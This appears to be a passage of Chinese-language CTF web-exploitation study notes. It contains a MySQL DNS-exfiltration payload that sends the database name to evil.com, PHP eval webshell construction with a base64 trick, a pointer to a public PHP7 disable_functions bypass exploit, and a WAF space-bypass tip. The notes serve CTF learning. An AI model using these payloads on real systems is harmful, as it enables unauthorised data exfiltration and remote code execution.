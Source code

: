 ```sql
        select load_file(concat('\\\\', (select hex(database())), '.evil.com)) 相当于访问 \\ctfer.vip\test, 会有http/tcp请求，
```
信息收集
```sql
SELECT @@datadir -- 数据库存储路径, /var/lib/mysql/
SELECT @@basedir -- mysql安装路径, /usr
```
## 学习参考链接 Wiki

[CTF中Web题目的常见题型及解题姿势](https://mp.weixin.qq.com/s/b3NJgwh9_fR4BW-hKc0idA)

[渗透测试中如何快速拿到Webshell](https://mp.weixin.qq.com/s/4o3IRc_vC9jSW12Sf-6taA)

[CTF web 题型解题技巧-第一课 思路讲解](https://mp.weixin.qq.com/s/QGjP8mHz3ZYVlgQqEGawjw)

[CTF web 题型理论基础篇-第二课 理论基础](https://mp.weixin.qq.com/s/aJg-qVl9ZAZ3b2UfW2uL1Q)

[CTF web 题型流量分析-第三课 （ctf 之流量分析） 工具使用-流量分析](https://mp.weixin.qq.com/s/LVGBp9rzjGoQ-4zwJvDFLQ)

[CTF web 题型解题技巧-第四课 web总结](https://mp.weixin.qq.com/s/Yc2bZmVPO-akMCLKxfdAwQ)

[CTF web 题型总结 第五课-- CTF WEB 实战练习（一）](https://mp.weixin.qq.com/s/-xOlhBiOZF1FIvRXqH8eHQ)

[CTF web题型总结-第六课 CTF WEB实战练习(二)](https://mp.weixin.qq.com/s/Smz8azjp7F5oeyQkz5YM8w)

[CTF web题型总结-第七课 CTF WEB实战练习(三)](https://mp.weixin.qq.com/s/y9sbf1VV-JCtSQGYxTHdxw)

[SQL注入基础整理及Tricks总结](https://www.anquanke.com/post/id/205376)  [Link2](https://mp.weixin.qq.com/s/vdUoQU2WS7zf0EKHFYKNvg)

[闲谈Webshell实战应用](https://mp.weixin.qq.com/s/xKB64su2gJJ51ZKEF0PSKg)

[Getshell | 文件上传绕过整理](https://mp.weixin.qq.com/s/DpZyReQenYwg-5F_tx2u8A)

## php解题思路
1. 构建shell，看phpinfo

```php
    @$this->x()['Ginkgo'];
    $this->decode = @base64_decode( $this->code );
```
比如这样的构建 `eval($_POST['a']);` 转base64 => ?Ginkgo=ZXZhbCgkX1BPU1RbJ2EnXSk7 ,用蚁剑连这个地址。

构建 `a=phpinfo();` ，用hackbar post出去 `a=phpinfo();` 注意分号。

2. 绕过读取文件
   

[exp.php](https://github.com/mm0r1/exploits/blob/master/php7-gc-bypass/exploit.php)

修改一行 `pwn("/readflag");`

## 过waf等过滤
添加空格绕过，如[Web-[RoarCTF 2019]Easy Calc](https://www.cnblogs.com/gaonuoqi/p/11890094.html),限制了num，waf并没有限制'  num'，当php解析的时候，又会把'   num'前面的空格去掉在解析，利用这点来上传非法字符
